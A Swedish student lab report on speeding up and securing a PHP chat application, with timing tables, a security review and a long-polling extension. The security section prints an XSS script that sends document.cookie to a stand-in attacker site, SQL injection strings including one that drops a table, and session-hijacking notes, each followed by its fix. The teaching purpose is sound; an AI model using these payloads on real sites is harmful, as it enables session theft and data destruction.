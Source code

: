 Rapport för laboration 2 - 1DV449
Av: Viktor Nilsson

körbar version finns på <a href="http://vn222ay.se/1dv449/1DV449_L02/">http://vn222ay.se/1dv449/1DV449_L02/</a>

### Laddningstid ###

Det fanns en hel del att göra för att optimera laddningstiden för sidan och dessa samt tiderna efter att förändringarna gjorts visas här nedan.
Då det främst var inloggningen som tog tid gjordes flest tester här. Applikationen har under dessa tester körs från binero.

Tider för inloggningen i millisekunder.
<pre>
Gjort åtgärd:           1      2      3      4      5     6     7

Första gången: 7050 - 3640 - 6500 - 6320 - 3080 - 3710 - 913 - 1070
Andra gången:  5860 - 2620 - 2230 - 2600 - 2760 -  586 - 112 -  647
Tredje gången: 4270 - 2250 - 2020 - 3100 - 3030 -  424 - 367 -  496
</pre>

 Åtgärder
 1. Ta bort onödig location (img/middle.php) + delayen på 2 sec
 2. Ta bort script som inte finns (longpoll.js) - onödig + mindre GET, boken
 3. Flytta om så att check.php körs i mess.php för att slippa ännu fler GET, boken
 4. Samla inline-script och css i mess.php och köra med externa filer (othercss.css, otherscripts.js)
 5. Tar bort dynamiska cssfilerna från css.php och lagt i othercss.css statiska filer. Kortare laddningstider pga lokal, färre GET, boken
 6. Minska bilderna - mindre data att skicka => snabbare (food.jpg)
 7. Minimera storleken på css- och js-filer.
 
### Mer om åtgärderna ###
 
 1. Genom att ta bort GET-requests drar vi ner på laddningstiden så location's vill vi minimera. Sen tog jag även bort fulingen som gjorde att applikationen tog 2 sekunder extra att laddas. Som källa till denna åtgärd tar jag både boken och föreläsningarna då vi pratat mycket om att dra ner på antalet förfrågningar. Laddningstiden blev markant bättre främst på grund av de 2 sekunderna som applikationen pausade.
 2. Scriptet fanns ej och såg därför ingen anledning till att ha det med. Detta drog ner på ytterligare en GET-request även fast det nog inte gjorde speciellt mycket är det en av de små bäckarna. Laddningstiden blev konstig första gången men andra och tredje visar ändå på förbättring, frågan är dock om det gjorde så pass mycket som den visar. Samma referens som ovan.
 3. För att fortsätta dra ner på onödiga laddningar omstrukturerade jag lite och flyttade över funktionalitet från check.php till mess.php. Här ser vi att laddningstiden hoppar upp förmodligen på grund av andra faktorer.
 4. Jag behöll inline-cssen för index.php då den förmodligen bara kommer köras en gång per session, men inline script och css i mess.php samlade jag ihop till var sin extern fil (othercss.css & otherscripts.js) för att kunna cachea detta så att det går snabbare att ladda sidan senare. Även omstrukturering gjordes i ordningen saker och ting laddades. Längst upp laddas css och längst ner script. css ska laddas först för att sidan ska kunna renderas snyggt och snabbt, script sist för att dessa inte behövs förrän sidan renderats och att dom enbart laddas hem en och en. (Boken som referens, Rule 6). Här ser vi vid första laddningen en markant skillnad. Det kan vara att bilden var cachead som spökade här.
 5. Jag vet inte om man fick göra så här, men vad jag kunde se från innehållet på de dynamiskt laddade css-filerna grid1 & grid2 fanns där inget som var specifikt för delar av sidan så jag valde att spara dessa lokalt istället för att snabba upp tiden. (Antar att det låg någon sleep() i denna också). Dessa tog över 1 sekund att ladda så skulle ge en markant skillnad hade jag hoppats på och det gav det förutom första laddningen som visar helt andra siffror.
 6. En sak jag märkte var att food.jpg var enormt stor och då den inte visades större än ungefär 300x220 behövde den heller inte vara större då den inte någonstans i applikationen visades större än detta. Här hade jag när jag gjort skrapan ändra storleken på skrapade bilder i php och sparat ner dessa i rätt storlek för att dra ner på datamängen som ska över till klienten. Här ser vi en stor skillnad då bilden emellanåt tog upp till 2-3 sekunder att ladda ibland.
 7. Som sista grej valde jag att förminska storleken på alla externa resurser (css och js) genom en minifier (http://cssminifier.com/ och http://javascript-minifier.com/). Allt för att dra ner på mängen data som ska skickas över. Testerna här visar att resultaten i förra testet kanske inte var helt så bra som dom visade då tiderna gick upp trots att jag förväntade mig dom att gå ner på grund av datamängen minskats med över 20-30% totalt på de externa resursfilerna.
 
 Kommentarer:
 css.php?css=grid1/2 tar väldigt ojämnt med tid under första testerna vilket gjort vissa tider ej rättvisa.
 den stora bilden food.jpg laddas inte alltid trots att cache rensas vilket har ställt till det i vissa testresultat.
 
 
 
 
### Säkerhet ###

1. Det fanns gott om säkerhetshål i applikationen varav ett var XSS i meddelandefältet.
-Man skulle kunna med hjälp av följande rad kunna skicka iväg cookieinformation till en extern sida: <script language="JavaScript">document.location="http://minhaxx0rsida.se/sparacookie.php?cookie=" + document.cookie;document.location="http://www.tillbakatillsidan.com"</script>
-Jag fixade till detta genom att köra htmlentities på all data som ska ut.
-Skada som hade kunnat ske är att någon får tag på ens session och kan komma in på sidan inloggad som dig.

2. Det finns inget skydd mot att highjacka sessioner.
-Man kan om man kommer åt sessionsinformationen (t.ex med en XSS-attack) använda denna för att logga in på sidan.
-Jag fixade detta genom att spara undan både IP och useragent som man sedan kollar mot. Går att manipulera men då måste attackeraren veta båda IP och useragent.
-Skadan som hade kunnat ske är samma som ovan; någon kan komma in på sidan inloggad som dig.

3. Mycket hål för SQL-Injections i ajaxanropen. Det jag upptäckt är getMessage, getMessageIdForProducer, getProducer går att utnyttja för SQL-injections.
-Genom att mata in ' OR '1'='1 Kommer allt att hämtas hem. Vill man kan man även '; DROP TABLE tabellen;--
-Fixas genom antingen att kolla så att ett ID är ett tal, intval() brukar jag använda för nummer. Att köra en prepare() och sen en bindParam() är vad jag gjort i detta fallet på samtliga.
-Med en SQL-Injection skulle man kunna komma över information från databasen eller förstöra genom att ta bort och manipulera data. Är lösenorden dåligt krypterade skulle dessa kunna användas för att testa dina inloggningsuppgifter på andra tjänster.

4. Det gick att logga in med SQL-injections i inloggningsfältet.
-Genom att mata in ' OR '1'='1 i båda fälten kommer du loggas in, inte otänkbart med adminkonto då detta ofta registreras först. Vet du användarnamnet kan du skriva in det och sedan skriva ' OR '1'='1 i lösenordsfältet för att logga in som den personen.
-Fixas som ovan genom att köra prepare() och bindParam().
-Går att göra saker som ovan men även att logga in som andra.

5. Mer SQL-injections finns att genomföra i meddelandeformuläret, både som namn och meddelande. Detta är precis som ovan avhjälpt med prepare() och bindParam() och innefattar samma säkerhetsrisker som ovan.

6. En säkerhetsrisk som var enkelt att missa var att vid utloggning blev man inte utloggad utan bara skickad till inloggningssidan. Gick man tillbaka var man fortfarande inloggad. Jag lade till en funktion som gjorde att man loggades ut innan man skickades tillbaka till index.php.
-Risken är att någon annan sätter sig vid datorn och kan komma åt ditt konto då du inte loggats ut på riktigt.
-Ta bort sessions hjälper i detta fallet för att döda inloggningen.
-Förbrytaren kan göra allt du kan då den är inloggad som dig.

### Comet Long Polling ###

Spännande extrauppgift som var riktigt lärorik! Jag löste uppgiften genom att ha en php-fil som efter att den kallas lägger sig i en loop i bestämt antal sekunder och kollar frekvent mot databasen om ett meddelande med ett nyare ID än det som skickades till scriptet finns. Om inte fortsätter loopandet, om det däremot kommit ett meddelande som är nyare och överensstämmer med producer-idet ($pid) retureras detta.

På klientsidan har jag tagit bort den vanliga koden som läste in meddelandena och ersatte med min egna som helt enkelt börjar med att kika om det finns något meddelande för $pid'en som är större än vilket det kommer finnas om det finns meddelanden. Detta äldsta meddelande skickas tillbaka och skrivs ut, samma kod excekveras igen fast denna gången med det nya idet för meddelandet. Hittas ett meddelande som är nyare händer samma sak och detta pågår till dess att det inte finns några nyare meddelande än sist laddat meddelande. Då kommer den istället ligga och försöka ladda scriptet tills dess att den timeoutar. Då tar den upp en ny anslutning och ligger och väntar innan antingen den också timeoutar eller att det faktiskt kommer ett nytt meddelande.

Den stora nackdelen är de väldigt många SQL-anrop som sker. Allt för att användaren ska få en push-aktig upplevelse. PHP är heller inte gjort för att ha denna typ av öppna anslutningar och vad jag kunnat läsa mig till så är detta väldigt resurskrävande med öppna anslutningar och php.

Jag lade även til en kolumn i sqlite-databasen (timestamp som integer) som håller tiden. Med javascript omvandlar jag denna och spottar ut mig ett finare format.
.prepend användes istället för .append för att få meddelandena att hamna i rätt ordning (senast överst).

### Slutkommentarer: ###
Ingen energi alls har lagts på att strukturera upp koden snyggare och med enhetligt. Hade jag haft tid hade jag gärna försökt ge mig på och göra denna kod mer objektorienterad och MVC men tid har inte funnits.
Inte heller har jag brytt mig om att kapsla in javascriptsfunktioner och den globala variabeln på ett snyggare sätt som vi lärde oss i webbteknik 1, också detta för att prioritera de moment laborationen var till för.
Hade jag haft mer tid hade detta också fixats.